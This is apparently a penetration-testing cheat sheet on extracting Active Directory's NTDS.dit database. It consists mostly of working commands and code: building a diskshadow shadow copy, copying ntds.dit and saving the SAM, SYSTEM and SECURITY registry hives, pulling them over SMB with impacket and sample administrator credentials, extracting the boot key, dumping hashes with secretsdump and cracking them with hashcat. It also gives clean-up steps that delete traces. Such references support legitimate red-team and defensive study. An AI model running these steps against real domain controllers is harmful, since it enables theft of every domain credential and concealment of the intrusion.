 ```yaml
---
description: Windows NT Directory Services + DCSync
---
```


# NTDS

- [https://trustedsec.com/blog/exploring-ntds-dit-part-1-cracking-the-surface-with-dit-explorer](https://trustedsec.com/blog/exploring-ntds-dit-part-1-cracking-the-surface-with-dit-explorer)




## Shadow Disk



### Create via Diskshadow

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create a shadow disk:

```
cd \Windows\Temp
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

{% code title="add_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```
{% endcode %}



### Exfiltrate over SMB

Create a network share with anonymous access and put there all we need:

```
cd \Windows\Temp
copy w:\Windows\NTDS\ntds.dit ntds.dit
cmd /c reg.exe save hklm\system system.hive
cmd /c reg.exe save hklm\sam sam.hive
cmd /c reg.exe save hklm\security security.hive
```

Connect to the share and grab the files:

```
$ smbclient.py MEGACORP/administrator:'Passw0rd!'@192.168.1.11
use C$
cd windows/temp
get ntds.dit
get system.hive
get sam.hive
get security.hive
```



### Clean Up

Remove the shadow volume:

```
cd \Windows\Temp
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

{% code title="delete_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```
{% endcode %}

Remove the share and all the traces:

```
cd \Windows\Temp
rm ntds.dit
rm system.hive
rm sam.hive
rm security.hive
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```




## Raw NTDS.dit Copy

- [https://github.com/3gstudent/ntfsDump](https://github.com/3gstudent/ntfsDump)
- [https://github.com/RedCursorSecurityConsulting/NTFSCopy](https://github.com/RedCursorSecurityConsulting/NTFSCopy)

Obtain a copy of NTDS.dit:

```
PS > Invoke-NTFSCopy C:\Windows\NTDS\ntds.dit C:\Windows\Temp\ntds.dit
```

Parse on-site in conjunction with [NtdsAudit](https://github.com/dionach/NtdsAudit/releases):

```
PS > esentutl.exe /p "C:\Windows\Temp\ntds.dit" /!10240 /8 /o
PS > reg.exe save HKLM\SYSTEM system.hive
PS > .\NtdsAudit.exe ntds.dit -s system.hive -p hashes.txt -u users.csv --dump-reversible cleartext.txt
```

Parse on-site in conjunction with [secretsdump.exe](https://github.com/Qazeer/OffensivePythonPipeline/blob/main/binaries/impacket/secretsdump_windows.exe):

```python
from binascii import hexlify
from impacket.smbconnection import SMBConnection
from impacket.examples.secretsdump import RemoteOperations
hostname = 'DC01.megacorp.local'
username = 'snovvcrash'
password = '<PASSWORD>'
nthash = '' if password else '<NTHASH>'
domain = hostname.split('.', 1)[1]
smbConn = SMBConnection(remoteName=hostname, remoteHost=hostname)
smbConn.login(user=username, password=password, domain=domain, nthash=nthash)
remOps = RemoteOperations(smbConnection=smbConn, doKerberos=False)
remOps.enableRegistry()
bootKey = remOps.getBootKey()
print(hexlify(bootKey).decode())
remOps.finish()
# .\secretsdump.exe LOCAL -ntds C:\Windows\Temp\ntds.dit -bootkey <BOOTKEY>
```




## Parse NTDS.dit

Parse with [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py):

```
$ secretsdump.py [-pwd-last-set] [-user-status] [-history] -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL > ntds.txt
$ cat ntds.txt | grep -a aad3b | grep -i 'Status=Enabled' | grep -v 31d6c | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F: '{print $1":"$4}' | sort -u > ntds.in
$ hashcat -m 1000 -a 0 -w 3 -O --session=ntds -o ntds.out ntds.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

Parse with [aesedb](https://github.com/skelsec/aesedb) (faster but less informative):

```
$ antdsparse <BOOTKEY> ntds.dit -o ntds.txt --progress
$ antdsparse system.hive ntds.dit -o ntds.txt --progress
```

Parse with ntdissector:

- [https://www.synacktiv.com/publications/introducing-ntdissector-a-swiss-army-knife-for-your-ntdsdit-files](https://www.synacktiv.com/publications/introducing-ntdissector-a-swiss-army-knife-for-your-ntdsdit-files)
- [https://github.com/synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)



### Reversible Encryption

- [https://adsecurity.org/?p=2053](https://adsecurity.org/?p=2053)
- [https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/](https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/)

Check if enabled globally:

- gpmc.msc > Default Domain Policy > *Computer Configuration* > *Policies* > *Windows Settings* > *Security Settings* > *Account Policies* > *Password Policy* > *Store passwords using reversible encryption* > *Enabled* ✔

Check if enabled for specific users:

```
PS > Get-ADUser -Filter {userAccountControl -band 128} -Properties userAccountControl | ft name,samAccountName,userAccountControl | tee users-revenc.txt
```

{% hint style="info" %}
When DCSyncing such users, a cleartext password will be obtained.
{% endhint %}




## Tools

- [https://github.com/dionach/NtdsAudit](https://github.com/dionach/NtdsAudit)
- [https://github.com/MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)

